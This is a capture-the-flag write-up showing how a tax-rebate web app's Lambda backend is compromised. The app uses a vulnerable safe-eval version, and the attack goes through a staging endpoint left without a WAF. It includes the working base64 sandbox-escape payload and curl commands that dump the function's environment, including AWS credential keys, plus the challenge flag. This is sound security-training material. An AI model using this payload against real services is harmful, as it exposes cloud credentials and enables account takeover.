

# Hold the line! Perimeter defences doing it's work!

> Points: 1991 [2000]

## Description

> Apparently, the lead engineer left the company (“Safe Online Technologies”). He was a talented engineer and worked on many projects relating to Smart City. He goes by the handle c0v1d-agent-1. Everyone didn't know what this meant until COViD struck us by surprise. We received a tip-off from his colleagues that he has been using vulnerable code segments in one of a project he was working on! Can you take a look at his latest work and determine the impact of his actions! Let us know if such an application can be exploited!
> 
> [Tax Rebate Checker](http://33woq.tax-rebate-checker.cf/)
> 
> Extract the flag value and submit in the correct format! - govtech-csg{extracted_value}
> 
> Note that cors-anywhere.herokuapp.com is not our domain. It's simply a free service. Please do not attack that domain!
> 
> This challenge:
> - Is eligible for Awesome Write-ups Award
> - Prerequisite for Mastery Award - Cloud Guru

## Solution



As the name says, it is a website that help us calculate our tax rebate using our age and annual salary. Each time we submit the form, our data gets posted to `https://cors-anywhere.herokuapp.com/https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`. The reason there is 2 URLs appended to each other is because the request is being proxied through `https://cors-anywhere.herokuapp.com/` and the `CORS` headers are added to the response so that the browser will process the data from `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`.

Therefore, the URL that we should be targetting is `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`.

According to the description, `c0v1d-agent-1` is the online handle that the engineer used. With a bit of googling, I found his [Github](https://github.com/c0v1d-agent-1) as well as the relevant [repository](https://github.com/c0v1d-agent-1/tax-rebate-checker).

Below is the vulnerable code that is being used in [`index.js`](https://github.com/c0v1d-agent-1/tax-rebate-checker/blob/main/index.js):

```javascript
...
            let body = JSON.parse(event.body);
            // Secret Formula
            let context = {person: {code: 3.141592653589793238462}};
            let taxRebate = safeEval((new Buffer(body.age, 'base64')).toString('ascii') + " + " + (new Buffer(body.salary, 'base64')).toString('ascii') + " * person.code",context);
            responseBody = {
                    results: taxRebate
            };
...
```

Essentially, it decodes the `age` and `salary` field in base64 and encodes them to `ascii` before evaluating them with `safeEval()`.

According to the [`package.json`](https://github.com/c0v1d-agent-1/tax-rebate-checker/blob/main/package.json), the version of `safe-eval` package that was being used is `0.0.3`, which was found to be vulnerable according to this [article](https://www.wispwisp.com/index.php/2019/08/16/cve-2017-16088-poc/). 

Another thing to note that was the presense of WAF (Web Application Firewall) on the `prod` setup as seen from this [issue](https://github.com/c0v1d-agent-1/tax-rebate-checker/issues/1). However, the issue also cited of a `staging` setup which did not have the WAF attached. 

Using `curl`, I was able to replicate the request but I instead sent the request to `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker` to see if the `staging` might still be there and indead, it was.

```bash
$ curl -XPOST https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker -d '{"age":"Mg==","salary":"MTIz"}'
{"results":388.41589639154455}                                                                                                                                      
```

With these knowledge of the vulnerable `safe-eval` package and the WAF-absent `staging` setup, we set off to extract the environment variables of the `lambda` function as it would contain the `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and the `AWS_SESSION_TOKEN` which are required for us to takeover the `lambda` function.

Our final payload was the base64 encoded version of `this.constructor.constructor('return process')().env;//`, which instantly revealed the flag in the environment variables.

```bash
$ curl -XPOST https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker -d '{"age":"dGhpcy5jb25zdHJ1Y3Rvci5jb25zdHJ1Y3RvcigncmV0dXJuIHByb2Nlc3MnKSgpLmVudjsvLw==","salary":"MTIz"}' | python3 -m "json.tool"
{
    "results": {
        "AWS_ACCESS_KEY_ID": "[REDACTED]",
        "AWS_DEFAULT_REGION": "ap-southeast-1",
        "AWS_EXECUTION_ENV": "AWS_Lambda_nodejs12.x",
        "AWS_LAMBDA_FUNCTION_MEMORY_SIZE": "128",
        "AWS_LAMBDA_FUNCTION_NAME": "cat-2-tax-rebate-checker",
        "AWS_LAMBDA_FUNCTION_VERSION": "$LATEST",
        "AWS_LAMBDA_INITIALIZATION_TYPE": "on-demand",
        "AWS_LAMBDA_LOG_GROUP_NAME": "/aws/lambda/cat-2-tax-rebate-checker",
        "AWS_LAMBDA_LOG_STREAM_NAME": "2020/12/08/[$LATEST]e125e7130aac44e591b6c02012a50176",
        "AWS_LAMBDA_RUNTIME_API": "127.0.0.1:9001",
        "AWS_REGION": "ap-southeast-1",
        "AWS_SECRET_ACCESS_KEY": "[REDACTED]",
        "AWS_SESSION_TOKEN": "[REDACTED]",
        "AWS_XRAY_CONTEXT_MISSING": "LOG_ERROR",
        "AWS_XRAY_DAEMON_ADDRESS": "169.254.79.2:2000",
        "LAMBDA_RUNTIME_DIR": "/var/runtime",
        "LAMBDA_TASK_ROOT": "/var/task",
        "LANG": "en_US.UTF-8",
        "LD_LIBRARY_PATH": "/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib",
        "NODE_PATH": "/opt/nodejs/node12/node_modules:/opt/nodejs/node_modules:/var/runtime/node_modules:/var/runtime:/var/task",
        "PATH": "/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin",
        "PWD": "/var/task",
        "SHLVL": "0",
        "TZ": ":UTC",
        "_AWS_XRAY_DAEMON_ADDRESS": "169.254.79.2",
        "_AWS_XRAY_DAEMON_PORT": "2000",
        "_HANDLER": "index.handler",
        "_X_AMZN_TRACE_ID": "[REDACTED]",
        "flag": "w3_Ar3_L00kinG_@t_Ap1"
    }
}

```

## Flag
`govtech-csg{w3_Ar3_L00kinG_@t_Ap1}`